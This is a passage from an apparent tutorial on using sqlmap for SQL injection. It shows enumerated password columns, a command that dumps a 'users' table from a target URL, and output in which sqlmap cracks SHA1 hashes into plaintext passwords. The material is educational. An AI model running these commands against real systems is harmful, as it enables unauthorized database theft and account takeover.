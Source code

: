 ```bash
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```
As we can see, we got all mentions for `Password`.
### Password Enumeration and Cracking
Once we identify a table containing ``passwords`` (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'

do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'

what dictionary do you want to use?

[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary

do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
```